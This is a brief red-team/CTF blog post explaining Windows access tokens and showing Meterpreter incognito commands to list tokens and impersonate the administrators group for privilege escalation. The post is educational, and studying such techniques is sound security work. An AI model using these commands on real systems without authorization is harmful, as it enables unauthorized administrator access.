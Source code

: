 ```yaml
---
layout: post
title:  "Token Imporsanate With Meterpreter Shell"
date:   2020-04-09 02:24:32 +0530
categories: redteam ctf
---
```


Token imporsanation is a windows privilage escalation technique. This blog discusses about how windows tokens work and how tokens can be used to escalate 
privilages into administrator account.

## What is a Token

When a user login to the windows system through physically or through a remote desktop, the os create a token and keep it in memory until the user disconnect or log off or 
computer reboot. Tokens are like cookies for windows. It holds the information about use authorization.

There are two types of Tokens exists,
<ol>
<li>Delegate - Created in an interactive login such as conventionally logging into the console, logging in remotely using Terminal Services
or using other remote access solutions such as Citrix.</li> 
<li>Imporsonate - Created in non-interactive login such as ftp server login, apache server login.</li>
</ol>

If the SeImpoersonate privilage is enable we can imporsanate any user through his token,

## Attack Using Meterpreter Shell

First we need to load incognito module,
```
load incognito
```
List All the tokens 
```
list_tokens -g
```
![List the tokens](https://raw.githubusercontent.com/janithmalinga/janithmalinga.github.io/master/_images/_imporsanate/list_token.png)
Then we can imporsanate the administrator using administrator token
```
impersonate_token "BUILTIN\Administrators"
```
![Imporsanate the administrator token](https://github.com/janithmalinga/janithmalinga.github.io/blob/master/_images/_imporsanate/imposanate_admin.png?raw=true)
